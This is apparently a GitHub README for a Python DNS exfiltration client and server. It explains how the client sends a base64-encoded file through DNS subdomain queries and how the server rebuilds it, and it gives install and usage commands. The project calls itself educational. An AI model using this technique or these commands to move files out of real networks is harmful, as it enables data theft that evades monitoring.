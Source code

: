 # DNS Exfiltration Tool

## Overview
This project includes two main components: a DNS exfiltration client and a corresponding server. The client reads the contents of a file, encodes it using base64, and then exfiltrates the data over DNS queries to the server. The server listens for these queries, decodes the incoming data, and reconstructs the original file. This project is designed for educational purposes to demonstrate DNS exfiltration techniques.

## Components

### 1. Client (`client.py`)
The client script encodes and sends file data in chunks via DNS queries. Each query embeds data within the subdomain to be sent to the DNS server. 

#### Features:
- File encoding using base64
- Data transmission via DNS queries
- Use of unique identifiers for each session

### 2. Server (`server.py`)
The server script receives DNS queries, extracts and decodes the data, and reconstructs the original file.

#### Features:
- Listening for DNS queries on a specified port
- Decoding base64 encoded data from the queries
- File reconstruction and storage

## Installation

### Prerequisites
- Python 3.x
- `dnslib` library

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/bufo333/python-dns-exfiltration-client-server.git
   ```
2. Install required Python packages:
   ```bash
   pip install dnslib
   ```

## Usage

### Running the Client
```bash
python client.py --file-path <path_to_file> --domain <domain_name> --server-ip <server_ip> --server-port <server_port>
```

### Running the Server
```bash
python server.py --port <listening_port> --output-dir <output_directory> --low <minimum latency per chunk> --high <maximum latency per chunk> --domain <domain needs to match client>
```

## License
This project is licensed under the GPL License - see the [LICENSE](LICENSE) file for details.

## Contributing
Contributions are welcome. Please fork the repository and submit a pull request.

## Authors
- John Burns

## Acknowledgments
This project was created for educational purposes to better understand DNS exfiltration techniques. 

## Disclaimer
The DNS Exfiltration Tool is developed for educational and research purposes only. It is intended to help users learn about and study DNS exfiltration techniques in a controlled, responsible, and legal environment.

This tool should not be used on any network, system, or domain without explicit permission from the rightful owners or administrators. Unauthorized use of this tool to perform DNS exfiltration or any other form of unauthorized data extraction could violate local, state, national, and international laws.

By downloading, copying, installing, or using the software, you agree to use it in a manner consistent with your local laws. The authors of this software disclaim all liability for any illegal use of this tool and any damages that may occur from its use. It is your responsibility to comply with all applicable laws and to use the software ethically and responsibly.

